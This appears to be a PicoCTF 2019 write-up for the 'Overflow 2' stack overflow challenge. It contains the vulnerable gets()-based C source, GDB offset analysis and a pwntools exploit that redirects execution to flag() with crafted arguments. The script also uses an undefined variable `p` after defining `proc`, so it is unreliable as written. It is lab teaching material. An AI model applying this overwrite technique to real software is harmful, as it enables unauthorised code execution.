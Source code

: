 [Back](PicoFrontPage.md)

# Overflow 2
---

### Tools
* GEF-GDB
* Pwntools - Python3
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Some important points:
* Different to overflow-1 because flag function takes arguments - these arguments are checked before spitting out the flag file contents
* Calls `gets()` again

### Analysis

So, like overflow-1, the program calls `gets()` so we can overflow that and take control of the return address (feed it `flag()` function's address).
If we `disassemble vuln`, we can see the stack build-up when the `vuln()` function is called.

<!-- disasvulnoverflow2 -->
![Image of GEF](../Images/PicoCTF2019/disasvulnoverflow2.jpg)

So, piecing all of it together, we can see the stack would probably look something like this:

<!-- StackOverflow2 -->
![Image of Stack](../Images/PicoCTF2019/StackOverflow2.jpg)

Doing the calculation: `0xb4 + 0x4 + 0x4 = 0xbc`.
Convert it to bytes through:
```
python
0xbc
```
And it should return 188 bytes.

Let's confirm if what we assumed is right through feeding a string.
Use the cyclic tool to get a string to give the program: `cyclic 200`.

Run GDB for the program.
Feed the string to the input and then analyze.

<!-- OverflowedOverflow2 -->
![Image of overflowed](../Images/PicoCTF2019/OverflowedOverflow2.jpg)

We see that `waab` or `0x62616177` is what is stored as the return address.
And so using `cyclic -l waab` it confirms that it is 188 bytes to reach `$eip`.

#### Arguments

Arguments are actually thrown onto the stack before the instruction pointer and can be referenced from the base pointer as you will be able to see in the images below.

We can `disassemble flag` to analyze the arguments for the `flag()` function.

<!-- Overflow2args -->
![Image of args](../Images/PicoCTF2019/Overflow2args.jpg)

This can also be seen through a disassembler.

<!-- Overflow2argsdisassembler -->
![Image of argsdisassembler](../Images/PicoCTF2019/Overflow2argsdisassembler.jpg)
<!-- Overflow2argsdisassembler2 -->
![Image of argsdisassembler2](../Images/PicoCTF2019/Overflow2argsdisassembler2.jpg)

We can see that the arguments `0xdeadbeef` and `0xc0ded00d` are stored on the stack at `ebp + 0x8` and `ebp + 0xc`, respectively.

Now, do the classic, find out the `flag()` address.

### Exploit

Final script:
```python
from pwn import *

proc = process('./vuln') # specifying the process

# addr and arg variables
addr = 0x80485e6
arg0 = 0xDEADBEEF
arg1 = 0xC0DED00D

# create payload of 188 + return address + 4 bytes + arg1 + arg2
payload = b'A'*188 + p32(addr) + b'A'*4 + p32(arg0) + p32(arg1)

# keep receiving until character is read
p.recvuntil(b'Please enter your string:')

# send payload as one line
p.sendline(payload)

# to get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Overflow 1](overflow1writeup.md)   [New Overflow 1](newoverflow1writeup.md)